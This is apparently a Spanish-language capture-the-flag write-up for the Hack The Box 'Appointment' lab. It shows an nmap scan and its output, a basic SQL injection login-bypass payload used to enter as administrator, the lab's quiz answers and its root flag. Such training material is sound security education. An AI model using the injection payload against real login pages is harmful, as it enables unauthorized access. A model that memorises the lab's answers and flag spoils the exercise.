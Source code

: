 ```yaml
---
title: HTB - Appointment
date: 2022-06-21
categories: [Hack The Box, Starting Point]
tag: [Web, Responder, LFI, Starting Point-Tier 2]
img_path: /assets/img/htb/appointment
image:
   path: appointment.png
   width: 371
   height: 168
---
```

<h2 style="color:#74b4f4">Escaneo</h2>
---
Realizamos un escaneo de `nmap` para identificar los puertos abiertos y servicios.

```console
nmap {target ip} -sV -v -O
```

Resultado del escaneo:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 20:09 CDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 20:09
Scanning 10.129.8.143 [4 ports]
Completed Ping Scan at 20:09, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:09
Completed Parallel DNS resolution of 1 host. at 20:09, 0.00s elapsed
Initiating SYN Stealth Scan at 20:09
Scanning 10.129.8.143 [1000 ports]
Discovered open port 80/tcp on 10.129.8.143
Completed SYN Stealth Scan at 20:09, 2.96s elapsed (1000 total ports)
Initiating Service scan at 20:09
Scanning 1 service on 10.129.8.143
Completed Service scan at 20:09, 6.35s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 10.129.8.143
Retrying OS detection (try #2) against 10.129.8.143
Retrying OS detection (try #3) against 10.129.8.143
Retrying OS detection (try #4) against 10.129.8.143
Retrying OS detection (try #5) against 10.129.8.143
NSE: Script scanning 10.129.8.143.
Initiating NSE at 20:09
Completed NSE at 20:10, 1.49s elapsed
Initiating NSE at 20:10
Completed NSE at 20:10, 1.56s elapsed
Nmap scan report for 10.129.8.143
Host is up (0.40s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/26%OT=80%CT=1%CU=37959%PV=Y%DS=2%DC=I%G=Y%TM=626897E
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%
OS:RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.250 days (since Thu Mar 10 13:10:18 2022)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.88 seconds
           Raw packets sent: 1220 (57.946KB) | Rcvd: 1164 (52.452KB)
```

Podemos observar que existe un servidor Apache corriendo en el puerto 80 lo que quiere decir que hay una página web activa en esa máquina. 

![](Pasted image 20220426203317.png)

![](Pasted image 20220426203252.png)

Intentamos una <b style="color:#800000">SQL Injection</b> básica para acceder al sistema como administrador sin necesidad de una contraseña.

```sql
' or 1=1#
```

Obtenemos la bandera.

![](Pasted image 20220426203049.png)

<h2 style="color:#74b4f4">Preguntas</h2>
---
1. ¿Qué significa el acrónimo SQL?

	<b style="color:#8B2F97">Structured Query Language</b>
	
2. ¿Cuál es uno de los tipos más comunes de vulnerabilidades de SQL?

	<b style="color:#8B2F97">SQL Injection</b>
	
3. ¿Qué significa PII?

	<b style="color:#8B2F97">Personally Identifiable Information</b>
	
4. ¿Cuál es el nombre de la lista OWASP Top 10 para la clasificación de esta vulnerabilidad?

	<b style="color:#8B2F97">A03:2021-Injection</b>

5. ¿Qué servicio y versión se ejecutan en el puerto 80 del destino?

	<b style="color:#8B2F97">Apache httpd 2.4.38 ((Debian))</b>

6. ¿Cuál es el puerto estándar utilizado para el protocolo HTTPS?

	<b style="color:#8B2F97">443</b>

7. ¿Cuál es un método basado en la suerte para explotar las páginas de inicio de sesión?

	<b style="color:#8B2F97">Brute-Forcing</b>

8. ¿Cómo se llama una carpeta en la terminología de aplicaciones web?

	<b style="color:#8B2F97">Directory</b>

9. ¿Qué código de respuesta se da para los errores "No encontrado"?

	<b style="color:#8B2F97">404</b>

10. ¿Qué interruptor usamos con Gobuster para especificar que buscamos descubrir directorios y no subdominios?

	<b style="color:#8B2F97">dir</b>

11. ¿Qué símbolo usamos para comentar partes del código?

	<b style="color:#8B2F97">#</b>
	
**Root Flag:** <b style="color:#FF8B00">e3d0796d002a446c0e622226f42e9672</b>


![](Pasted image 20220426203857.png)
